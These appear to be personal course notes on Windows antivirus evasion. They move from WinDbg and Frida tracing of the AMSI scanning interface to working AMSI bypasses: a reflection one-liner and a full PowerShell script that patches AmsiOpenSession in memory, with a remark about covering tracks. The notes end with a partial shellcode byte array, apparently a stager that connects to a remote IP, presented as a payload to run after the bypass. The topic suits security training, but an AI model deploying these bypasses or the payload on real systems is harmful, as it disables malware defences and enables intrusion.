




# Advanced Antivirus evasion

Some antivirus rely on cloud based resources and try to use AI to detect malicious behaviour

In this module, we’ll explore the impact of Windows Defender’s implementation of AMSI on 
PowerShell and Jscript. However, in order to do this, we must inspect the code at the assembly 
level. To that end, we’ll begin with an overview of assembly and then discuss the process of 
viewing code execution through the Windows Debugger.
32-bit (x86) and 64-bit (x86_64) versions of Windows 10. 
Although the differences between these versions may be subtle to the casual user, they are 
significant at the assembly level.

The stack typically stores the content of (higher-language) variables that are of static size and 
limited scope, whereas the heap is used for dynamic memory allocation and long-runtime 
persistent memory.
32-bit versions of Windows allocate 2GB of memory space to applications, ranging from the 
memory addresses 0 to 0x7FFFFFFF. 64-bit versions of Windows, on the other hand, support 
128TB (terabytes) of memory, ranging from 0 to 0x7FFFFFFFFFFF.

 

The call343 assembly instruction transfers 
program execution to the address of the function and places the address to execute once the 
function is complete on the top of the stack where ESP (or RSP) is pointing. Once the function is 
complete, the ret344 instruction is executed, which fetches the return address from the stack and 
restores it to EIP/RIP.

 On a 32-bit architecture, the __stdcall345 calling convention reads all 
arguments from the stack. However, the 64-bit __fastcall346 calling convention expects the first 
four arguments in RCX, RDX, R8, and R9 (in that order) and the remaining arguments on the stack.

# windbg introduction

bp command followed by a memory address or the name of a function

setting a breakpoint with kernel32 function - 

`bp kernel32!writefile` 

`g` - to continue execution

`p` - to step through instructions one at a time

we can use unassemble

`u` for unassemble

so we can perform
`u rip L5`

we can view all registers with `r` command

`r rax`

we can look at the enrite memory area with 
`dd`, - 32 bit values 
`dc`, - 32 bit values with ASCII representation
`dq`  - 64 bit values

we can edit using 
`ed rsp 0`

### 7.1.1.1 Exercises
1. Open WinDbg and attach to a Notepad process.
2. Set a software breakpoint and trigger it.
3. Step through instructions and display register and memory content

```
00007ffe`647aaae5 8b442458        mov     eax,dword ptr [rsp+58h] ss:000000ff`4a6aead8=00000007
0:000> g
Breakpoint 0 hit
KERNEL32!WriteFile:
00007ffe`65994fd0 ff258ac00500    jmp     qword ptr [KERNEL32!_imp_WriteFile (00007ffe`659f1060)] ds:00007ffe`659f1060={KERNELBASE!WriteFile (00007ffe`647aaa50)}
0:000> u rip L5
KERNEL32!WriteFile:
00007ffe`65994fd0 ff258ac00500    jmp     qword ptr [KERNEL32!_imp_WriteFile (00007ffe`659f1060)]
00007ffe`65994fd6 cc              int     3
00007ffe`65994fd7 cc              int     3
00007ffe`65994fd8 cc              int     3
00007ffe`65994fd9 cc              int     3
0:000> r rip
rip=00007ffe65994fd0
```
# Anti malware scan interface

At a high level, 
AMSI captures every PowerShell, Jscript, VBScript, VBA, or .NET command or script at run-time 
and passes it to the local antivirus software for inspection.

The unmanaged dynamic link library AMSI.DLL is loaded into every PowerShell and 
PowerShell_ISE process and provides a number of exported functions that PowerShell takes 
advantage of.

# understanding AMSI

The AMSI exported APIs include AmsiInitialize, AmsiOpenSession, AmsiScanString, 
AmsiScanBuffer, and AmsiCloseSession.

When PowerShell is launched, it loads AMSI.DLL and calls AmsiInitialize, which takes two 
arguments as shown in the function prototype below:
```
HRESULT AmsiInitialize(
 LPCWSTR appName,
 HAMSICONTEXT *amsiContext
);
```
The first parameter is the name of the application and the second is a pointer to a context 
structure that is populated by the function. This context structure, named amsiContext, is used in 
every subsequent AMSI-related function.
Note that the call to AmsiInitialize takes place before we are able to invoke any PowerShell 
commands, which means we cannot influence it in any way.
Once AmsiInitialize is complete and the context structure is created, AMSI can parse the issued 
commands. When we execute a PowerShell command, the AmsiOpenSession358 API is called:
```
HRESULT AmsiOpenSession(
 HAMSICONTEXT amsiContext,
 HAMSISESSION *amsiSession
);
```
AmsiOpenSession accepts the amsiContext context structure and creates a session structure to 
be used in all calls within that session. This leads to the next two APIs that perform the actual 
captures.
AmsiScanString359 and AmsiScanBuffer360 can both be used to capture the console input or script 
content either as a string or as a binary buffer respectively

# Hooking with Frida

WinDbg breakpoints to trace the calls to the exported AMSI calls, but the Frida363
dynamic instrumentation framework offers a more flexible approach.

installing frida -

`pip install frida`

add the folder to you environement variable

```
C:\Users\misthios\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.10_qbz5n2kfra8p0\LocalCache\local-packages\Python310\Scripts
```

Then we can debug

```
>frida-trace -p 8464 -x amsi.dll -i Amsi*
```

Looking at AMSI

```
C:\Users\misthios>frida-trace -p 9592 -x amsi.dll -i Amsi*
Instrumenting...
AmsiOpenSession: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiOpenSession.js"
AmsiUninitialize: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiUninitialize.js"
AmsiScanBuffer: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiScanBuffer.js"
AmsiUacInitialize: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiUacInitialize.js"
AmsiInitialize: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiInitialize.js"
AmsiCloseSession: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiCloseSession.js"
AmsiScanString: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiScanString.js"
AmsiUacUninitialize: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiUacUninitialize.js"
AmsiUacScan: Auto-generated handler at "C:\\Users\\misthios\\__handlers__\\amsi.dll\\AmsiUacScan.js"
Started tracing 9 functions. Press Ctrl+C to stop.
           /* TID 0x24e4 */
116610 ms  AmsiCloseSession()
           /* TID 0x1268 */
116610 ms  AmsiOpenSession()
116610 ms  AmsiScanBuffer()
116720 ms  AmsiScanBuffer()
116735 ms  AmsiScanBuffer()
116751 ms  AmsiScanBuffer()
116751 ms  AmsiScanBuffer()
116751 ms  AmsiScanBuffer()
116767 ms  AmsiScanBuffer()
116767 ms  AmsiScanBuffer()
           /* TID 0x1e60 */
116798 ms  AmsiCloseSession()
           /* TID 0x1268 */
116798 ms  AmsiOpenSession()
116798 ms  AmsiScanBuffer()
```

We go to 
C:\Users\misthios\__handlers__\amsi.dll

and change the AmsiScanBuffer.js open process function as 

```
onEnter: function (log, args, state) {
 log('[*] AmsiScanBuffer()');
 log('|- amsiContext: ' + args[0]);
 log('|- buffer: ' + Memory.readUtf16String(args[1]));
 log('|- length: ' + args[2]);
 log('|- contentName ' + args[3]);
 log('|- amsiSession ' + args[4]);
 log('|- result ' + args[5] + "\n");
 this.resultPointer = args[5];
},
```

and onLeave function as

```
onLeave: function (log, retval, state) {
 log('[*] AmsiScanBuffer() Exit');
 resultPointer = this.resultPointer;
 log('|- Result value is: ' + Memory.readUShort(resultPointer) + "\n");
}
```

### 7.2.2.1 Exercises
1. Use Frida to trace innocent PowerShell commands and fill out the onEnter and onExit
JavaScript functions of AmsiScanBuffer to observe how the content is being passed.
2. Enter malicious commands and try to bypass AMSI detection by splitting strings into 
multiple parts.

done

# Bypassing AMSI refelction in powershell

we can drop in form of strings however it quickly becomes cat and mouse.

# What context mom ?

When we examined each of the AMSI Win32 APIs, we found that they all use the context structure 
that is created by calling AmsiInitialize. 

Since this context structure is undocumented, we will use Frida to locate its address in memory 
and then use WinDbg to inspect its content. As before, we will open a PowerShell prompt and a 
trace it with Frida. Then, we’ll enter another “test” string to obtain the address of the context 
structure

amsi context: 0x2c8cc81d510

`dc address`

000002c8`cc81d510  49534d41 00000000 cc84db40 000002c8  AMSI....@.......
000002c8`cc81d520  c95e5410 000002c8 00000d62 00000000  .T^.....b.......
000002c8`cc81d530  00000000 00000000 c9c080fe 90000b00  ................
000002c8`cc81d540  cc81d540 000002c8 c94e7340 000002c8  @.......@sN.....
000002c8`cc81d550  cc81dbe0 000002c8 c94e7a61 000002c8  ........azN.....
000002c8`cc81d560  00000000 00000020 c9cf80fb 90000c00  .... ...........
000002c8`cc81d570  cc81d570 000002c8 c94e7b20 000002c8  p....... {N.....
000002c8`cc81d580  c94d6980 000002c8 c94e7341 000002c8  .iM.....AsN.....

`u amsi!AmsiOpenSession`

00007ffc`e9b63840 e9c3c81914      jmp     00007ffc`fdd00108
00007ffc`e9b63845 4885c9          test    rcx,rcx
00007ffc`e9b63848 7442            je      amsi!AmsiOpenSession+0x4c (00007ffc`e9b6388c)
00007ffc`e9b6384a 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007ffc`e9b63850 753a            jne     amsi!AmsiOpenSession+0x4c (00007ffc`e9b6388c)
00007ffc`e9b63852 4883790800      cmp     qword ptr [rcx+8],0
00007ffc`e9b63857 7433            je      amsi!AmsiOpenSession+0x4c (00007ffc`e9b6388c)
00007ffc`e9b63859 4883791000      cmp     qword ptr [rcx+10h],0

``

we go to the place where AMSI is defined and then

```
0:014> bp amsi!AmsiOpenSession
```
```
0:014> g
Breakpoint 0 hit
amsi!AmsiOpenSession:
00007fff`c75c24c0 e943dcdb0b jmp 00007fff`d3380108
```
```
0:006> dc rcx L1
000001f8`62fa6f40 49534d41 AMSI
```
```
0:006> ed rcx 0
```
```
0:006> dc rcx L1
000001f8`62fa6f40 00000000 ....
````
```
0:006> g
```
then `amsiutils`

this requires manual intervention

### instead lets go for non manual implementation of stopping amsi directlyform powershell.

`$a=[Ref].Assembly.GetTypes()`

`Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}`

`$c.GetFields('NonePublic,Static')`

```
PS C:\Users\WIN10RED> $c.GetFields('NonPublic,Static')


Name                   : amsiContext
MetadataToken          : 67114382
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.IntPtr
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}

Name                   : amsiSession
MetadataToken          : 67114383
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.IntPtr
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}

Name                   : amsiInitFailed
MetadataToken          : 67114384
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.Boolean
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}

Name                   : amsiLockObject
MetadataToken          : 67114385
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Private, Static
FieldType              : System.Object
MemberType             : Field
ReflectedType          : System.Management.Automation.AmsiUtils
DeclaringType          : System.Management.Automation.AmsiUtils
Module                 : System.Management.Automation.dll
IsPublic               : False
IsPrivate              : True
IsFamily               : False
IsAssembly             : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsStatic               : True
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsSpecialName          : False
IsPinvokeImpl          : False
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}
```

```
PS C:\Users\Offsec> $d=$c.GetFields('NonPublic,Static')
PS C:\Users\Offsec> Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}
PS C:\Users\Offsec> $f.GetValue($null)
3061447775504
```
converting to hex:
0x2C8CC81D510

one liner to remove AMSI

```
 $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}}$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

This script is blocked by windows defender.

need to remove tamper protection for it to run.

still didnt work

  


### 7.3.1.1 Exercises
1. Inspect the amsiContext structure to locate the AMSI header using Frida and WinDbg.
2. Manually modify the amsiContext structure in WinDbg and ensure AMSI is bypassed.
3. Replicate the .NET reflection to dynamically locate the amsiContext field and modify it.

# wreaking amsi in powershell

In the last section, we used reflection to locate vital structures and variables that, when corrupted, 
will cause AMSI to be disabled. In this section, we’ll modify the assembly instructions themselves 
instead of the data they are acting upon in a technique known as binary patching. We can use this 
technique to hotpatch the code and force it to fail even if the data structure is valid.

# understanding the assembly flow

dumping the contents of AmsiOpenSession

```
0:011> u amsi!AmsiOpenSession L1A
```
output

```
amsi!AmsiOpenSession:
00007ffa`1778d980 4885d2          test    rdx,rdx
00007ffa`1778d983 743f            je      amsi!AmsiOpenSession+0x44 (00007ffa`1778d9c4)
00007ffa`1778d985 4885c9          test    rcx,rcx
00007ffa`1778d988 743a            je      amsi!AmsiOpenSession+0x44 (00007ffa`1778d9c4)
00007ffa`1778d98a 4883790800      cmp     qword ptr [rcx+8],0
00007ffa`1778d98f 7433            je      amsi!AmsiOpenSession+0x44 (00007ffa`1778d9c4)
00007ffa`1778d991 4883791000      cmp     qword ptr [rcx+10h],0
00007ffa`1778d996 742c            je      amsi!AmsiOpenSession+0x44 (00007ffa`1778d9c4)
00007ffa`1778d998 41b801000000    mov     r8d,1
00007ffa`1778d99e 418bc0          mov     eax,r8d
00007ffa`1778d9a1 f00fc14118      lock xadd dword ptr [rcx+18h],eax
00007ffa`1778d9a6 4103c0          add     eax,r8d
00007ffa`1778d9a9 4898            cdqe
00007ffa`1778d9ab 488902          mov     qword ptr [rdx],rax
00007ffa`1778d9ae 7510            jne     amsi!AmsiOpenSession+0x40 (00007ffa`1778d9c0)
00007ffa`1778d9b0 418bc0          mov     eax,r8d
00007ffa`1778d9b3 f00fc14118      lock xadd dword ptr [rcx+18h],eax
00007ffa`1778d9b8 4103c0          add     eax,r8d
00007ffa`1778d9bb 4898            cdqe
00007ffa`1778d9bd 488902          mov     qword ptr [rdx],rax
00007ffa`1778d9c0 33c0            xor     eax,eax
00007ffa`1778d9c2 c3              ret
00007ffa`1778d9c3 cc              int     3
00007ffa`1778d9c4 b857000780      mov     eax,80070057h
00007ffa`1778d9c9 c3              ret
00007ffa`1778d9ca cc              int     3
```

We are trying to modify test rdx, rdx with xor rax, rax

we want to make minimum modification as possible

### 7.4.1.1 Exercises
1. Follow the analysis in WinDbg and locate the TEST and conditional jump instruction.
2. Search for any other instructions inside AmsiOpenSession that could be overwritten just as 
easily to achieve the same goal

done above

# patching the internals

To implement the attack, we’ll need to perform three actions. We’ll obtain the memory address of 
AmsiOpenSession, modify the memory permissions where AmsiOpenSession is located, and 
modify the three bytes at that location.

we have been provided a lookup function to find out the base address of amsi dll.

```
function LookupFunc {
 Param ($moduleName, $functionName)
 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
 Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
 Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
 $tmp=@()
 $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, 
@($moduleName)), $functionName))
}
```
we can use this function like any other win32 API to locate the amsi opensession by opening a 64 bit instance of powershell_ise and executing the following code.

```
function LookupFunc {
 Param ($moduleName, $functionName)
 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
 Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
 Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
 $tmp=@()
 $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, 
@($moduleName)), $functionName))
}
[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$funcAddr
```

To verify this address, we’ll open WinDbg, attach to the PowerShell_ISE process and quickly 
translate the address to hexadecimal with the ? command, prepending the address with 0n

```
? 0n140706668796288
```


```s
0:027> ? 0n140712112347520
Evaluate expression: 140712112347520 = 00007ffa`1778d980
```

```
u 00007ff8`d302d980
```

```
amsi!AmsiOpenSession:
00007ff8`d302d980 4885d2          test    rdx,rdx
00007ff8`d302d983 743f            je      amsi!AmsiOpenSession+0x44 (00007ff8`d302d9c4)
00007ff8`d302d985 4885c9          test    rcx,rcx
00007ff8`d302d988 743a            je      amsi!AmsiOpenSession+0x44 (00007ff8`d302d9c4)
00007ff8`d302d98a 4883790800      cmp     qword ptr [rcx+8],0
00007ff8`d302d98f 7433            je      amsi!AmsiOpenSession+0x44 (00007ff8`d302d9c4)
00007ff8`d302d991 4883791000      cmp     qword ptr [rcx+10h],0
00007ff8`d302d996 742c            je      amsi!AmsiOpenSession+0x44 (00007ff8`d302d9c4)
```

In Windows, all memory is divided into 0x1000-byte pages.
379 A memory protection setting is 
applied to each page, describing the permissions of data on that page.
Normally, code pages are set to PAGE_EXECUTE_READ, or 0x20,380 which means we can read and 
execute this code, but not write to it. This obviously presents a problem.
Let’s verify this in WinDbg with !vprot,
381 which displays memory protection information for a 
given memory address:

```
!vprot 00007ff8`d302d980
BaseAddress:       00007ff8d302d000
AllocationBase:    00007ff8d3020000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0000000000008000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              01000000  MEM_IMAGE
```

we can overwrite the bytest on this page by using the vitual protect api

creating a module to call virtual protect

```
function LookupFunc {
 Param ($moduleName, $functionName)
 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
 $tmp=@()
 $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)), $functionName))
}

function getDelegateType {
 Param ([Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,[Parameter(Position = 1)] [Type] $delType = [Void])
 $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
 $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
 $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed') 
 return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], 
[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
```

after doing this, we find that

```
0:025> !vprot 00007ff8`d302d980
BaseAddress:       00007ff8d302d000
AllocationBase:    00007ff8d3020000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0000000000001000
State:             00001000  MEM_COMMIT
Protect:           00000080  PAGE_EXECUTE_WRITECOPY
Type:              01000000  MEM_IMAGE
```

However, the new memory protection is set to PAGE_EXECUTE_WRITECOPY instead of 
PAGE_EXECUTE_READWRITE. In order to conserve memory, Windows shares AMSI.DLL between 
processes that use it. PAGE_EXECUTE_WRITECOPY is equivalent to 
PAGE_EXECUTE_READWRITE but it is a private copy used only in the current process

We can use the Copy385 method from the System.Runtime.InteropServices namespace to copy the 
assembly instruction (XOR RAX,RAX) represented as 0x48, 0x31, 0xC0 from a managed array 
($buf) to unmanaged memory

```
```ps1
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
```

we can also now restore the memory address to covver our tracks

```
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

the entire code together then for amsi bypass


```ps1
function LookupFunc {
 Param ($moduleName, $functionName)
 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
 $tmp=@()
 $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)), $functionName))
}

function getDelegateType {
 Param ([Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,[Parameter(Position = 1)] [Type] $delType = [Void])
 $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
 $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
 $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed') 
 return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], 
[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)

$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)


```

this works even with cloud protect and tamper protection

code to run with amsi bypass caesar encrypted payload

```ps1
[Byte[]] $buf2 = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x41,0x51,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x44,0x8b,0x40,0x20,0x8b,0x48,0x18,0x49,0x1,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x41,0x58,0x41,0x58,0x48,0x1,0xd0,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xd,0x0,0x0,0x0,0x31,0x30,0x2e,0x31,0x30,0x2e,0x31,0x33,0x38,0x2e,0x31,0x30,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0x5b,0x11,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0x53,0x0,0x0,0x0,0x2f,0x51,0x52,0x52,0x65,0x37,0x4d,0x4d,0x64,0x5f,0x70,0x6f,0x73,0x6f,0x53,0x32,0x6a,0x54,0x68,0x72,0x6a,0x48,0x51,0x36,0x46,0x4d,0x4e,0x4b,0x31,0x43,0